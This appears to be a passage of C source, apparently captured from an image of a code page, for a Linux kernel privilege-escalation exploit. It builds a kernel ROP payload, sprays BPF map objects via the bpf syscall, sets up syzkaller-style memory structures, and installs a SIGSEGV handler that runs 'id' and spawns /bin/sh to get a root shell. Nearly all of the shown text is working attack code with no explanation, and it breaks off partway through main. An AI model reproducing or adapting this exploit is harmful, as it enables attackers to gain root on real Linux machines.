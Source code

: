 ```
    rop_chain[15+2]=user_ss;
    memcpy(krop_base_mapped+rop_start,rop_chain,sizeof(rop_chain));
    puts("Rop Payload Initialized");
}

#ifndef __NR_bpf
#define __NR_bpf 321
#endif

uint64_t r[1] = {0xffffffffffffffff};

long victim[SPRAY_NUMBER];
void spray(){
    int i;
    for(i=0;i<SPRAY_NUMBER;i++){
        victim[i] = syscall(__NR_bpf, 0, 0x200011c0, 0x2c);
    }
    return;
}
void get_shell_again(){
  puts("SIGSEGV found");
  puts("get shell again");
  system("id");
  char *shell = "/bin/sh";
  char *args[] = {shell, NULL};
  execve(shell, args, NULL);
}
int main(void)
{
  signal(SIGSEGV,get_shell_again);
  syscall(__NR_mmap, 0x20000000, 0x1000000, 3, 0x32, -1, 0);
  long res = 0;
  *(uint32_t*)0x200011c0 = 0x17;
  *(uint32_t*)0x200011c4 = 0;
  *(uint32_t*)0x200011c8 = 0x40;
  *(uint32_t*)0x200011cc = -1;
  *(uint32_t*)0x200011d0 = 0;
  *(uint32_t*)0x200011d4 = -1;
  *(uint32_t*)0x200011d8 = 0;
  *(uint8_t*)0x200011dc = 0;
  *(uint8_t*)0x200011dd = 0;
  *(uint8_t*)0x200011de = 0;
  *(uint8_t*)0x200011df = 0;
  *(uint8_t*)0x200011e0 = 0;
  *(uint8_t*)0x200011e1 = 0;
  *(uint8_t*)0x200011e2 = 0;
  *(uint8_t*)0x200011e3 = 0;
  *(uint8_t*)0x200011e4 = 0;
  *(uint8_t*)0x200011e5 = 0;
  *(uint8_t*)0x200011e6 = 0;
  *(uint8_t*)0x200011e7 = 0;
  *(uint8_t*)0x200011e8 = 0;
  *(uint8_t*)0x200011e9 = 0;
  *(uint8_t*)0x200011ea = 0;
  *(uint8_t*)0x200011eb = 0;
  save_state();
  prepare_krop();
  res = syscall(__NR_bpf, 0, 0x200011c0, 0x2c);
  if (res != -1)
    r[0] = res;
  spray();

  *(uint32_t*)0x200000c0 = r[0];
```